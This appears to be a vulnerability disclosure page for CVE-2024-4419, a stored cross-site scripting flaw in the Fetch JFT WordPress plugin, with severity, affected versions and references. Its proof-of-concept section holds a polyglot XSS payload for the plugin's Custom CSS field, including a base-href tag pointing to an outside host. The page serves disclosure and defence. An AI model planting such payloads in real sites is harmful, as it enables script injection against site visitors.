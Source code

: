 ```yaml
---
layout: page
title: CVE-2024-4419
subtitle: Fetch JFT <= 1.8.3 - Authenticated (Administrator+) Stored Cross-Site Scripting
---
```

## Description
The Fetch JFT plugin for WordPress is vulnerable to Stored Cross-Site Scripting via admin settings in all versions up to, and including, 1.8.3 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with administrator-level permissions and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page. This only affects multi-site installations and installations where unfiltered_html has been disabled.

## Severity
 4.4 (Medium) - [CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N)

## Affected Version
    <= 1.8.3

## PoC :
```
- Go To Fetch JFT Plugin Settings
- Put this payload on field Custom CSS
```
JavaScript://%0A/*?'/*\\'/*"/*\\"/*`/*\\`/*&apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(confirm)(1+2+3+4+5+6+7+8+9+10+11+12+13+14+15+16+17+18+19+20+45+500+1000-400-20+2)}//><Base/Href=//ener1-s3c.github.io\\76-->
```
- Save Change
```

## Reference
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3089669%40fetch-jft%2Ftrunk&old=3025839%40fetch-jft%2Ftrunk&sfp_email=&sfph_mail=
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/fetch-jft/fetch-jft-183-authenticated-administrator-stored-cross-site-scripting
- https://www.cve.org/CVERecord?id=CVE-2024-4419






